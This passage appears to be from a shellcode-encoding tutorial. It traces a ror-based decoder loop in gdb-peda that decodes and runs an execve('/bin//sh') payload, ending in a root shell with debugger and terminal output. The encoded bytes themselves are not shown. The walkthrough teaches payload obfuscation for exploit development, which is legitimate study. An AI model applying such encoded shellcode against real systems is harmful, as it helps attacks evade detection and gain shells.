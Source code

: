 #### Decoding all the Bytes
```console
=> 0x804a048 <code+8>:  je     0x804a052 <code+18>
# JUMP is NOT taken
   0x804a04a <code+10>: inc    esi
=> 0x804a04b <code+11>: jmp    0x804a043 <code+3>
# JUMP is taken
```
+ To move to the next byte in our encoded payload string we use the instruction `inc esi`.
+ We go through this 26 more times until we reach the byte `0xff`.

#### Finding the End of Payload
```console
   0x804a043 <code+3>:  ror    BYTE PTR [esi],1
=> 0x804a045 <code+5>:  cmp    BYTE PTR [esi],0xff
=> 0x804a048 <code+8>:  je     0x804a052 <code+18>
# JUMP is taken
=> 0x804a052 <code+18>: xor    eax,eax
```
+ `0xff` rotated either way, any amount of times, is always `0xff`.
+ After reaching the final byte `0xff` we jump into our decoded payload.

#### Injected Shellcode at time of Execve Payload Execution
```console
[------------------registers------------------]
EAX: 0xb ('\x0b')
EBX: 0xbffff500 ("/bin//sh")
ECX: 0xbffff4f8 --> 0xbffff500 ("/bin//sh")
EDX: 0xbffff4fc --> 0x0

[---------Current-Instruction-----------------]
=> 0x804a069 <code+41>: int    0x80
0000| 0xbffff4f8 --> 0xbffff500 ("/bin//sh")
0004| 0xbffff4fc --> 0x0
0008| 0xbffff500 ("/bin//sh")
0012| 0xbffff504 ("//sh")
0016| 0xbffff508 --> 0x0

# Execute the Execve 0x80 systemcall
gdb-peda$ si
process 27199 is executing new program: /bin/dash
# whoami
[New process 788]
process 788 is executing new program: /usr/bin/whoami
root
```
+ We see we successfully decoded and executed our execve payload.

## Testing without gdb
```console
root# ./shellcode
Shellcode Length:  44
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
+ Boom! Our decoded works!


